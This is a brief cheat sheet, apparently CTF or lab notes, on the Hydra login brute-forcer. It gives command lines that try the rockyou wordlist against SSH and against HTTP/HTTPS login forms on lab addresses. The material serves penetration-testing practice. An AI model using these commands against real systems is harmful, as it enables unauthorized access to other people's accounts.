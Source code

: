 Hydra Typical usage.

Crack SSH when the username is known.
> hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.138.193 ssh

If you don't know the username you can pass a list as well.
> hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.138.193 ssh

For a web site you have to use ^^ and find the HTML designator.  
> hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"

> sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"

Another example.

> hydra -l admin -P /usr/share/wordlists/rockyou.txt target.thm http-post-form "/login.aspx:UserName=^USER^, Password=^PASS^:F=Login Failed"

